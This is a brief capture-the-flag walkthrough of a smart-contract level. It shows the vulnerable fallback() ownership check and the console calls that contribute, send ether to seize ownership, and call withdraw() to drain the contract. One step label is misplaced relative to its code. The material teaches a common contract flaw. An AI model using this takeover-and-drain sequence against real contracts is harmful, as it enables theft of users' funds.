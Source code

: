 -The fallback() function contained the lined

`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`

-Understood that if we send ether directly to the contract and we already have a contribution, we can become the owner

`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`
-Completed the level by submitting the instance
